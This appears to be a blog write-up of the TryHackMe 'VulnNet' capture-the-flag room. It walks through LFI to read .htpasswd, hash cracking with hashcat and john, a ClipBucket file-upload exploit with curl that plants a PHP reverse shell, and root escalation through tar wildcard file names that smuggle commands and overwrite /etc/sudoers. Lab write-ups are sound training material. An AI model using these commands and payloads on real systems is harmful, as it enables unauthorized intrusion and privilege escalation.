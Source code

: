 ```yaml
---
layout: post
title: THM Vulnnet WriteUp
date: 2025-09-11 01:50 -0400
tags: ["thm","writeup","lfi","web"]
---
```


In this occasion we will be solving TryHackMe's room
URL: https://tryhackme.com/room/vulnnet1

### RECON

**ports 22,80**

```bash
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet
|_http-favicon: Unknown favicon MD5: 8B7969B10EDA5D739468F4D3F2296496
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
Apache version: Apache/2.4.29 (Ubuntu)"]
SSH: "SSH-2.0-OpenSSH_7.6p1
Linux: Ubuntu
```

**subdomain enumeration**
```
ffuf -u http://vulnnet.thm/ -w ~/hdd/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host:FUZZ.vulnnet.thm" -ac
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250909.png)

Accessing the site we receive a basic Apache authentication login page

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-1.png)

Analyzing the js files we can find a little hint a possible referer, so we can try file inclusion vulnerabilities.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-2.png)

We can see that the file /etc/passwd is being reflected, so we can go further this.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-3.png)

Using intruder we will choose this Seclists Fuzzing LFI wordlist to find all the possible files with sensitive information inside the box.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-6.png)

We got a hit here, the file .htpasswd contains the credentials for accessing the protected broadcast.vulnnet.thm resource.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-4.png)

So we get an username and a encrypted hash, we can use hashcat to crack it as follows.

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

```
hashcat -m 1600 -a 0 hash.txt ~/hdd/wordlists/rockyou.txt
```

Crack .htpasswd

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910.png)

The plaintext password would be the following

```
developers:9972761drmfsls
```

The we will try to login the secondary website, some inspection and we now its a Clipbucket instance.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-7.png)

## LOW LEVEL USER

In order to exploit an access the host machine we can exploit a known vulnerability of this deployment.

https://sec-consult.com/vulnerability-lab/advisory/os-command-injection-arbitrary-file-upload-sql-injection-in-clipbucket/

```bash
#curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/beats_uploader.php"
```

Because the instance is behind an authentication window, we should also provide the basic auth header, being a Base64 representation of the username:password.

Also we can use a php-reverse-sell.php as this file will be granting us a reverse shell in the box.

```
curl -X POST -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw==" -F "file=@/home/c/hdd/scripts/WebShell/Php/php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

**Response**

This response indicates that the file has been correctly uploaded, we should take note of the filename and the path.

```bash
creating file{"success":"yes","file_name":"1757540582b1fa96","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"} %
```


**Triggering the reverse shell**

Just make a simple curl request replacing the placeholders with the data of the already uploaded

```
curl http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/175755542330361a.php -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw=="
```

I won't discus in detail how to upgrade a shell so let's go directly to post exploitation.


## Privilege Escalation

Using pspy we can see the tools or crons that are constantly being executed in the host machine, I Found this script but we cannot write or do anything without low level user permissions, but it will be useful later.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-10.png)

The script basically makes a backup of an entire folder using tar command utility

```bash
#!/bin/bash
# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

## LOOKING FOR USER.TXT

Looking around in the backup directory we can see this interesting file.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-3.png)

Now we proceed to copy un unzip found ssh private key, however its encrypted so we have to crack it first.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-4.png)

For this purpose we will be using john jumbo suite, and specifically the following script to get a crackable hash representation of the password.

```
python3 ssh2john.py /tmp/id_rsa > /tmp/id_rsa.txt
```

Now that we have a working hash, we proceed to crack it with john.

```bash
/run/john --wordlist=/home/c/hdd/wordlists/rockyou.txt /tmp/id_rsa.txt
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911.png)

We get the following password

```
id_rsa:10.201.86.192
```

Then we need to use openssl to decrypt the key as follows.

```bash
openssl rsa -in id_rsa -out unencrypted_id_rsa
chmod 0400 unencrypted_id_rsa
```

Login as user 'server-management' only have two users that are able to login

**Upgrade to rootl**

```bash
# 1. Create files in the current directory called  
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'  
  
echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh privesc.sh'  
  
# 2. Create a privesc.sh bash script, that allows for privilege escalation  
#malicous.sh:  
echo 'server-management ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

After the execution of the cron task just type

```
sudo su
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-2.png)




---

REF: https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
